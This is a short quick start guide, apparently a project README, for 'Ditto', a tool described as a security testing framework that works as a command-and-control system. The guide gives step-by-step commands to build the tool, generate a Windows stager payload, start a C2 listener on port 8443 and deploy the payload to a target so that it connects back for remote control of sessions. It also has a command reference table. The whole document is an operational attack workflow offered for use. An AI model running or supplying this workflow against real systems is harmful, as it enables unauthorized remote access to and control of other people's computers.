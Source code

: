 # Quick Start Guide - Ditto

**Ditto** - Advanced Security Testing Framework

---

## Quick Start

### 1. Build Ditto

```bash
git clone https://github.com/rxid09672/ditto.git
cd ditto
make build
```

### 2. Run Interactive Mode

```bash
./bin/ditto
```

You'll see the ditto.png banner and an interactive prompt:

```
[ditto] > 
```

### 3. Generate Your First Payload

```bash
[ditto] > generate stager windows amd64 payload.exe
```

### 4. Start Server

```bash
[ditto] > server 0.0.0.0:8443
```

### 5. Deploy Payload

Deploy `payload.exe` to your target system. It will connect back to your server.

---

## Complete Workflow

1. **Generate payload**: `generate stager windows amd64 payload.exe`
2. **Start server**: `server 0.0.0.0:8443`
3. **Deploy payload**: Copy payload.exe to target
4. **Interact**: Use server interface to control sessions

---

## Command Reference

| Command | Description |
|---------|-------------|
| `generate <type> <os> <arch> [output]` | Generate payload |
| `server [address]` | Start C2 server |
| `client <url>` | Connect as client |
| `help` | Show help |
| `version` | Show version |
| `exit` | Exit Ditto |

---

For complete documentation, see [README.md](../README.md) and [docs/CLI_USAGE.md](CLI_USAGE.md).
